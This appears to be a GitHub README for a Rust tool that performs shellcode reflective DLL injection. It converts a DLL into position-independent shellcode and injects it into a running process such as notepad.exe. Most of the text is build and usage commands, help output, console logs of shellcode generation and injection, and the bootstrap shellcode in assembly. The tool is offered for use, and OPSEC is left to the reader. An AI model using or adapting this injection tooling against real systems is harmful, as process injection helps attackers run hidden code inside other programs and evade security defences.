


# Shellcode Reflective DLL Injection (sRDI) in Rust (Codename: Venom)

Shellcode reflective DLL injection (sRDI) is a process injection technique that allows us to convert a given DLL into a position-independent code which can then be injected using our favourite shellcode injection and execution technique.

## Features

- The size of the reflective loader is approximately 4KB.

- Does not release the memory that was allocated by the injector, nor does it remove any existing `RWX` permissions set by the user injector, if applicable.

- Does not overwrite or erase the DOS or NT Headers of the newly allocated memory after/before resolving imports or rebasing image.

- Applies protection settings for each section allocated by the `VirtualAlloc` function, and subsequently executes either DllMain or SayHello functions.

What about `OPSEC`? Feel free to implement it yourself :)

## Usage

0). [Install Rust](https://www.rust-lang.org/tools/install)

1). Build all of the projects

```
cargo build --release
```

2). Generate the shellcode.

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe -h
Shellcode Reflective DLL Injection (sRDI)

Usage: generate_shellcode.exe [OPTIONS] --loader <LOADER> --payload <PAYLOAD> --function <FUNCTION> --parameter <PARAMETER> --output <OUTPUT>

Options:
      --loader <LOADER>        The reflective loader DLL path (loader.dll)
      --payload <PAYLOAD>      The payload DLL path (payload.dll)
      --function <FUNCTION>    The function to execute inside payload.dll (SayHello)
      --parameter <PARAMETER>  The parameter to pass to the function inside payload.dll (https://localhost:1337/)
      --output <OUTPUT>        The output file path (shellcode.bin)
      --flags <FLAGS>          The 0x0 flag will execute DllMain and any other flag will execute the function inside payload.dll (SayHello) [default: 1]
  -h, --help                   Print help
  -V, --version                Print version
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

3). Bring your own injector (BYOI) and inject the position-independent code with your favourite injection and execution technique or use the one in the repository.

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\inject.exe -h
Simple Injector for PoC

Usage: inject.exe --process <PROCESS> --file <FILE>

Options:
      --process <PROCESS>  The target process name (notepad.exe)
      --file <FILE>        The PIC file path (shellcode.bin)
  -h, --help               Print help
  -V, --version            Print version
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

## Example

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs> cargo build --release
    Finished release [optimized] target(s) in 0.04s
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs>
```

### DLLMain

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe --loader .\reflective_loader.dll --payload .\payload.dll --function SayHello --parameter https://127.0.0.1:1337/ --flags 0 --output shellcode.bin

Loader Path: .\reflective_loader.dll
Payload Path: .\payload.dll
Output Path: shellcode.bin
[+] Reflective Loader Offset: 0x400
[!] Bootstrap Shellcode Length: 79 (Ensure this matches BOOTSTRAP_TOTAL_LENGTH in the code)
[+] Reflective Loader Length: 3584
[+] Payload DLL Length: 113664
[+] Total Shellcode Length: 117350
[*] loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)
[*] arg1: rcx, arg2: rdx, arg3: r8, arg4: r9, arg5: [rsp + 0x20], arg6: [rsp + 0x28]
[*] rcx: 0xe4a rdx: 0x756de3c6 r8: https://127.0.0.1:1337/, r9: 0x17, arg5: ???, arg6: 0
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\inject.exe --process notepad.exe --file .\shellcode.bin

[+] Process ID: 9944
[+] Process handle: 184
[+] Allocated memory in the target process for the shellcode: 0x19e49950000
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```




### SayHello

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe --loader .\reflective_loader.dll --payload .\payload.dll --function SayHello --parameter https://127.0.0.1:1337/ --flags 1 --output shellcode.bin

Loader Path: .\reflective_loader.dll
Payload Path: .\payload.dll
Output Path: shellcode.bin
[+] Reflective Loader Offset: 0x400
[!] Bootstrap Shellcode Length: 79 (Ensure this matches BOOTSTRAP_TOTAL_LENGTH in the code)
[+] Reflective Loader Length: 3584
[+] Payload DLL Length: 113664
[+] Total Shellcode Length: 117350
[*] loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)
[*] arg1: rcx, arg2: rdx, arg3: r8, arg4: r9, arg5: [rsp + 0x20], arg6: [rsp + 0x28]
[*] rcx: 0xe4a rdx: 0x756de3c6 r8: https://127.0.0.1:1337/, r9: 0x17, arg5: shellcode.bin addy, arg6: 1
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\inject.exe --process notepad.exe --file .\shellcode.bin
[+] Process ID: 9944
[+] Process handle: 184
[+] Allocated memory in the target process for the shellcode: 0x19e499c0000
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```



## Description

The bootstrap shellcode:

```asm
call 0x00
pop rcx
mov r8, rcx

push rsi
mov rsi, rsp
and rsp, 0x0FFFFFFFFFFFFFFF0
sub rsp, 0x30

mov qword ptr [rsp + 0x20], rcx
sub qword ptr [rsp + 0x20], 0x5
mov dword ptr [rsp + 0x28], <flags>

mov r9, <parameter_length>
add r8, <parameter_offset> + <payload_length>
mov edx, <parameter_hash>
add rcx, <payload_offset>

call <loader_offset>

nop
nop

mov rsp, rsi
pop rsi
ret

nop
nop
```

The shellcode.bin file layout in memory:

[](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

**Credits: [Nick Landers @(monoxgas)](https://github.com/monoxgas)**

## References and Credits

* https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/
* https://github.com/monoxgas/sRDI
* https://github.com/stephenfewer/ReflectiveDLLInjection/
* https://discord.com/invite/rust-lang-community (Rust Community #windows-dev channel)
* https://github.com/dismantl/ImprovedReflectiveDLLInjection
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
* https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/
* https://github.com/Cracked5pider/KaynLdr
* https://github.com/Ben-Lichtman/reloader/
* https://github.com/not-matthias/mmap/
* https://github.com/memN0ps/mmapper-rs
* https://github.com/2vg/blackcat-rs/tree/master/crate/mini-sRDI
* https://github.com/Jaxii/idk-rs/
* https://github.com/janoglezcampos/rust_syscalls/
